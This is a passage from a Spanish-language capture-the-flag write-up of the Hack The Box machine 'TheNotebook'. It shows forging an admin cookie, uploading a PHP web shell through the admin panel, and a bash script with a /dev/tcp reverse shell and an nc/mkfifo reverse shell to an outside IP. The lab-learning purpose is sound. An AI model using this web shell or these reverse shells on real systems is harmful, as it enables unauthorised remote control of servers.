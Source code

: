 ```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Tomamos el token, editamos nuestra cookie `auth` por la nueva y simplemente refrescamos la página. Yyyyyyyyyy obtenemos:

```bash
...
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.230 - - [15/Mar/2021 25:25:25] "GET /palaKeypa.key HTTP/1.1" 200 -
```

![320page80_weareasadminLOL](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_weareasadminLOL.png)

¿Ves algo distinto? e.e (Tamos dentro como **admin** fathEEEEEEer, muy lindo esto)

Veamos el nuevo apartado `Admin Panel`:

![320page80_admin_panel](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_panel.png)

![320page80_admin_panel_uploadFiles](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_panel_uploadFiles.png)

Opa, podemos subir archivos y parece que de cualquier tipo, probemos a subir de una un archivo `.php` para generar ejecución remota de comandos. Veamos si nos da algún problema...

```bash
❭ cat toRiCE.php 
<?php $coma=shell_exec($_GET['xmd']); echo $coma; ?>
```

El script simplemente indica: que recibirá una petición mediante el método `GET` y la guardara en la variable `xmd`, esta a su vez, hará una petición al sistema mediante `shell_exec` y el resultado del comando ejecutado se guardará en la variable `$coma`, al final simplemente mostramos ese contenido. Subámoslo, seleccionamos el archivo y damos clic en `Save`, nos devuelve:

![320page80_admin_panel_up_RCEfile](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_panel_up_RCEfile.png)

Veamos el archivo que se subió y probemos de una vez por ejemplo, ver que usuario somos y el hostname:

![320page80_admin_panel_RCE](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_panel_RCE.png)

Perfecto, tenemos ejecución remota de comandos, entablémonos una Reverse Shell...

(El archivo es borrado rápidamente así que debemos ser igual o más rápidos)

Probando y fallando podemos generar un archivo `.sh` que contenga lo que queramos ejecutar en el sistema y simplemente como comando en la web le decimos que haga un `cURL` hacia nuestro script y que a su vez interprete y ejecute el contenido:

```bash
❭ cat rev.sh 
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.194/4433 0>&1"
#rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1 | nc 10.10.14.194 4433 >/tmp/f
```
